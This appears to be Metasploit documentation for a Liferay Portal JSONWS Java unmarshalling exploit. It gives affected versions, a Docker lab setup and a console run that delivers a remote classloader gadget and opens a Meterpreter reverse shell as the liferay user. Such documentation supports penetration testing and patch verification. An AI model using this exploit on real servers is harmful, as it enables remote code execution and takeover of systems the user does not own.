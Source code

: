 ## Vulnerable Application

### Description

This module exploits a Java unmarshalling vulnerability via JSONWS in
Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, and 7.2.1
GA2 to execute code as the Liferay user. Tested against 7.2.0 GA1.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

**Note:** You may want to increase Docker's memory capacity up to 4 GB.
Liferay will crash at 2 GB or less. 4 GB seems to be the sweet spot.

Run `docker run -it -p 8080:8080 liferay/portal:7.2.0-ga1` (note the
added `7.2.0-ga1` tag) as per Liferay's [Docker Hub instructions](https://hub.docker.com/r/liferay/portal).
Any dependencies will be pulled automatically.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets Liferay Portal versions < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4,
and 7.2.1 GA2.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, set this to a different port to avoid a port conflict
with the remote classloading server.

## Scenarios

### Liferay Portal 7.2.0 GA1 from [Docker Hub](https://hub.docker.com/r/liferay/portal)

```
msf5 > use exploit/multi/http/liferay_java_unmarshalling
msf5 exploit(multi/http/liferay_java_unmarshalling) > options

Module options (exploit/multi/http/liferay_java_unmarshalling):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Liferay Portal < 6.2.5 GA6, 7.0.6 GA7, 7.1.3 GA4, 7.2.1 GA2


msf5 exploit(multi/http/liferay_java_unmarshalling) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/http/liferay_java_unmarshalling) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(multi/http/liferay_java_unmarshalling) > set srvport 8888
srvport => 8888
msf5 exploit(multi/http/liferay_java_unmarshalling) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Liferay 7.2.0 CE GA1 MAY be a vulnerable version. Please verify.
[*] Using URL: http://0.0.0.0:8888/
[*] Local IP: http://192.168.1.3:8888/
[+] Started remote classloader server at http://192.168.1.3:8888/
[*] Sending remote classloader gadget to http://127.0.0.1:8080/api/jsonws/expandocolumn/update-column
[*] GET /Uphxohekruuokpedknflsriuafhrdsfk.class requested
[+] Sending constructor class
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] HEAD /metasploit.dat requested
[+] Sending 200
[*] GET /metasploit.dat requested
[+] Sending payload config
[*] HEAD /metasploit/Payload.class requested
[+] Sending 200
[*] GET /metasploit/Payload.class requested
[+] Sending payload class
[*] Sending stage (53928 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:58271) at 2020-04-08 07:05:47 -0500
[*] Server stopped.

meterpreter > getuid
Server username: liferay
meterpreter > sysinfo
Computer    : 588a96d744cb
OS          : Linux 4.19.76-linuxkit (amd64)
Meterpreter : java/linux
meterpreter >
```
